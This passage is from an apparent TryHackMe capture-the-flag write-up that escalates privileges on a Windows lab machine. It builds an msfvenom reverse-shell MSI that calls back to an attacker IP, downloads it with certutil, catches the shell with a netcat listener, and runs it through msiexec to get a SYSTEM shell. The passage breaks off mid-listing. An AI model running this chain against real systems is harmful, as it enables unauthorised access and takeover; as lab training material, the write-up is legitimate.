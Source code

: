 Let’s just exploit that vulnerablity step by step and gain higher privileges.

1. Create a Malicious MSI Payload
    
    ```bash
    ┌──(ghost㉿kali)-[~/tryhackme/weasel]
    └─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.87.131 LPORT=4444 -f msi > exploit.msi
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of msi file: 159744 byte
    ```
    
2. Transfer `exploit.msi` to the Victim machine.
    
    ```bash
    ┌──(ghost㉿kali)-[~/tryhackme/weasel]
    └─$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    
    PS C:\Users\dev-datasci-lowpriv\Desktop> certutil.exe -urlcache -f http://10.17.87.131/exploit.msi exploit.msi
    ****  Online  ****
    CertUtil: -URLCache command completed successfully.
    ```
    
3. Setup a netcat listner on our kali machine.
    
    ```bash
    ┌──(ghost㉿kali)-[~/tryhackme/weasel]
    └─$ rlwrap -f . -r nc -nvlp 4444
    listening on [any] 4444 ...
    ```
    
4. Run the MSI payload with msiexec as user dev-datasci-lowpriv(password is what we find above for this user.)
    
    ```bash
    PS C:\Users\dev-datasci-lowpriv\Desktop> runas /u:dev-datasci-lowpriv "msiexec /qn /i C:\Users\dev-datasci-lowpriv\Desktop\exploit.msi"
    Enter the password for dev-datasci-lowpriv: 
    Attempting to start msiexec /qn /i exploit.msi as user "DEV-DATASCI-JUP\dev-datasci-lowpriv" ...
    ```
    
5. Enjoy the elevated shell and grab the root flag
    
    ```bash
    C:\Windows\system32>whoami
    whoami
    nt authority\system
    
    C:\Windows\system32>cd C:\Users\Administrator\Desktop
    cd C:\Users\Administrator\Desktop
    
    C:\Users\Administrator\Desktop>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 8AA3-53D1
    